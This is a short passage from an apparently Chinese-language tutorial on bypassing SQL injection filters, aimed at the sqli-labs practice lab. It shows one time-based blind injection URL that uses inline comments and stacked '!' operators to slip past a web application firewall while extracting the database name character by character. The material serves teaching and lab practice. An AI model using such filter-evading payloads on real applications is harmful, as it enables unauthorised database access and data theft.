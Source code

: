 ![在 and 后加 !](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E5%9C%A8%20and%20%E5%90%8E%E5%8A%A0%20!.png)

在 and 后再加两个 `!` 

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!!!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

![在 and 后再加两个 !](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E5%9C%A8%20and%20%E5%90%8E%E5%86%8D%E5%8A%A0%E4%B8%A4%E4%B8%AA%20!.png)
